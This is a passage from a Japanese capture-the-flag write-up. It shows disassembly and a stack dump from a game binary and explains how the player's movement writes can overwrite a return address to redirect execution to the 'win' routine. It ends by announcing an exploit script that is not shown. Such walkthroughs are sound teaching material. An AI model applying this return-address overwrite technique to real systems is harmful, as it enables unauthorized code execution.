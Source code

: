 ```bash
 804997a:       e8 31 f7 ff ff          call   80490b0 <puts@plt>
 804997f:       83 c4 10                add    $0x10,%esp
 8049982:       83 45 f4 01             addl   $0x1,-0xc(%ebp)
 8049986:       8b 85 54 f5 ff ff       mov    -0xaac(%ebp),%eax
 804998c:       83 c0 01                add    $0x1,%eax
 804998f:       89 85 54 f5 ff ff       mov    %eax,-0xaac(%ebp)
 8049995:       83 ec 0c                sub    $0xc,%esp
 8049998:       8d 85 58 f5 ff ff       lea    -0xaa8(%ebp),%eax
 804999e:       50                      push   %eax
 804999f:       e8 62 fb ff ff          call   8049506 <init_player>
~~~
```
`0x8049970`に飛べばよさそうなので、あとはスタック上で`0x80499XX`のリターンアドレスを探す。  
注意として、メモリを`.`(`0x2e`)に書き換えながら移動するのでマップ外を移動するとプログラムが落ちる。  
マップ上で書き換えたい場所の一行下まで移動し、`w`で最後にピンポイントで移動するのが良い。  
`aaaaawwwaaaawsddddaaw`とアドレス末尾の位置へ移動し、8バイトずつ上へ遡っていくことを考える。  
`move_player`でにブレイクポイントを張り、stackを見ると以下の通りであった。  
```
00:0000│ esp 0xffffc37c —▸ 0x804992c (main+187) ◂— add esp, 0x10
01:0004│-ac8 0xffffc380 —▸ 0xffffc3a0 ◂— 0x0
02:0008│-ac4 0xffffc384 ◂— 0x77 /* 'w' */
03:000c│-ac0 0xffffc388 —▸ 0xffffc3af ◂— 0x2e2e2e2e ('....')
04:0010│-abc 0xffffc38c —▸ 0xffffc39c ◂— 0x4
05:0014│-ab8 0xffffc390 —▸ 0xf7fbe480 ◂— '/lib/i386-linux-gnu/libc.so.6'
06:0018│-ab4 0xffffc394 —▸ 0xffffcf10 ◂— 0x1
07:001c│-ab0 0xffffc398 ◂— 0x0
08:0020│-aac 0xffffc39c ◂— 0x4
09:0024│ eax 0xffffc3a0 ◂— 0x0
0a:0028│-aa4 0xffffc3a4 ◂— 0xfffffffd
0b:002c│-aa0 0xffffc3a8 ◂— 0x2e001b
0c:0030│-a9c 0xffffc3ac ◂— 0x2e000040 /* '@' */
0d:0034│-a98 0xffffc3b0 ◂— 0x2e2e2e2e ('....')
```
`0xffffc37f`を書き換えたいため、4 * 12バイト上に移動すればよい。  
これで現在のレベルが5であり、ひとつ前のレベルが4である条件を達成できる。  
その後に`p`を使用すれば`win`に行けるかと思うが、永遠にレベルが上がり続ける。  
仕方がないので、先ほどと同じテクニックを使い`main`の`win`を呼び出す個所に飛ぶ。  
```bash
$ objdump -D ./game

./game:     file format elf32-i386
~~~
08049871 <main>:
~~~
 80499c4:       83 c4 10                add    $0x10,%esp
 80499c7:       8b 85 58 f5 ff ff       mov    -0xaa8(%ebp),%eax
 80499cd:       83 f8 1d                cmp    $0x1d,%eax
 80499d0:       0f 85 2f ff ff ff       jne    8049905 <main+0x94>
 80499d6:       8b 85 5c f5 ff ff       mov    -0xaa4(%ebp),%eax
 80499dc:       83 f8 59                cmp    $0x59,%eax
 80499df:       0f 85 20 ff ff ff       jne    8049905 <main+0x94>
 80499e5:       8b 85 54 f5 ff ff       mov    -0xaac(%ebp),%eax
 80499eb:       83 f8 05                cmp    $0x5,%eax
 80499ee:       0f 85 11 ff ff ff       jne    8049905 <main+0x94>
 80499f4:       83 7d f4 04             cmpl   $0x4,-0xc(%ebp)
 80499f8:       0f 85 07 ff ff ff       jne    8049905 <main+0x94>
 80499fe:       83 ec 0c                sub    $0xc,%esp
 8049a01:       8d 85 54 f5 ff ff       lea    -0xaac(%ebp),%eax
 8049a07:       50                      push   %eax
 8049a08:       e8 af fd ff ff          call   80497bc <win>
~~~
```
ギリギリだが、`0x80499fe`に飛べばよい。  
注意点としてリターンアドレスは4 * 16バイト上になっているが、同じ手順で特定できる。  
以下のexploit.pyですべてを行う。  